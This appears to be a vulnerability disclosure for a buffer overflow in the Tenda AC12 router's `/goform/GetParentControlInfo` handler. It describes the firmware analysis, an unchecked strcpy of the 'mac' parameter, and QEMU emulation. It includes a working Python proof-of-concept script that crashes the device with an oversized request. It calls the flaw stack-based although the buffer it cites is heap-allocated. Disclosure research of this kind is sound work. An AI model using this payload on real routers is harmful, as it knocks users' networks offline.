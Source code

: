 # Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC1206 (AC1206V1.0RTL_V15.03.06.23)
## Overview
A stack-based buffer overflow vulnerability exists in the Tenda Wi-Fi 5 Router AC12 device running firmware version AC1206V1.0RTL_V15.03.06.23. Due to the lack of restrictions on certain parameters and the absence of boundary checks in the `GetParentControlInfo` function, a stack overflow may occur. Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through parameters in this endpoint.`/goform/GetParentControlInfo`, `initWebs`, `formDefineTendDa`

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd.
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
+ **Affected Product**: Tenda Wi-Fi 5 Router AC12 Device
+ **Affected Version**: AC1206V1.0RTL_V15.03.06.23
+ **Attack Vector**: Exploiting carefully crafted payloads to cause a stack-based buffer overflow via functions with no boundary checks and insufficient parameter restrictions
+ **Impact**:
    - Denial of Service (DoS)
+ **Affected Component**: `/goform/GetParentControlInfo`, `initWebs`, `formDefineTendDa`
+ **CVE ID**: Pending (CVE application in progress)
+ **Discovered by**: xxricardoxkk (xxricardoxkk@gmail.com)
+ **Firmware**: [https://www.tenda.com.cn/material/show/2766](https://www.tenda.com.cn/material/show/2766)

## Discovery
The vulnerability was discovered by analyzing the firmware (US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.bin). The following call chain exists in the `squashfs-root/bin/httpd` file:  
`main → initWebs → formDefineTendDa → GetParentControlInfo`

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE4.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE3.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE2.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/formdefinetenda.png)
![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%B0%83%E7%94%A8%E9%93%BE1.png)

The program retrieves the user input parameter "mac". The `strcpy` function in the figure below copies content from `mac_addr` to `pc_info->mac_addr` without checking the size of the target buffer. `pc_info = (parent_control_info *)malloc(0x254u);` where 0x254 is 596 bytes. If the length of `mac_addr` exceeds the buffer of `pc_info->mac_addr`, an overflow will occur.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E6%BA%A2%E5%87%BA%E7%82%B9.png)

Therefore, a carefully designed payload at the interface path `/goform/GetParentControlInfo` can cause a buffer overflow.

## Steps to Reproduce
Construct the following payload using Python:

```python
import requests

# Construct overflow payload
def create_payload():
    buffer_size = 51200
    payload = b"A" * buffer_size
    v11_value = b"\xef\xbe\xad\xde"
    payload += v11_value
    return payload

# Construct and send HTTP request
def send_payload(url, payload):
    params = {'mac': payload}
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    # Target URL
    url = "http://192.168.31.12/goform/GetParentControlInfo"
    # Create malicious payload
    payload = create_payload()
    # Send malicious request
    send_payload(url, payload)
```

Use QEMU to emulate the `httpd` extracted from `US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.bin` (note that this file is for the MIPS little-endian architecture, and IDA needs to be used to modify `httpd` to adapt to the emulation environment).

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/mips%E5%B0%8F%E7%AB%AF%E4%BF%AE%E6%94%B9.png)


As shown in the figure below, the emulation is successful.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/payload%26%E4%BB%BF%E7%9C%9F.png)

Use this script to trigger the stack overflow.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC12/image/%E8%BF%90%E8%A1%8C%E8%84%9A%E6%9C%AC%E8%A7%A6%E5%8F%91%E6%A0%88%E6%BA%A2%E5%87%BA.png)

## Impact
Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through parameters in this endpoint.

